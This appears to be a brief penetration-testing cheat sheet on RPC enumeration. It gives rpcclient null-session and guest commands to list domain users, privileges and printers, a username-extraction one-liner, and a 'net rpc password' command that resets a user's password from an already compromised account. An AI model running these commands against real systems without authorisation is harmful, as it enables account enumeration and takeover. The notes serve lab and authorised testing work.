 Use RPC client
---
#rpc #rpc-client #rpcclient

```shell
#enumerate users
rpcclient -U "" -N -c enumdomusers $TARGET_IP
#extract usernames
rpcclient -U "" -N -c enumdomusers $TARGET_IP | grep -o 'user:\[[^]]*\]' | awk -F'[][]' '{print $2}'
```


```shell
rpcclient -U "" $TARGET_IP
```

or with user "guest":

```bash
rpcclient -U guest $TARGET_IP
# lookupsids = sids -> username
enumdomusers
querydispinfo
enumprivs
enumprinters
```

Change user password
---
use net
```bash
#could be a password, krb5 ccache, no pass, nt hash...
net rpc password $USER -U $OWNED_USER -S $TARGET_IP -P $PASSWORD
```


Impacket RPC dump
---
#impacket #impacket-rpc

```bash
impacket-rpcdump -h
```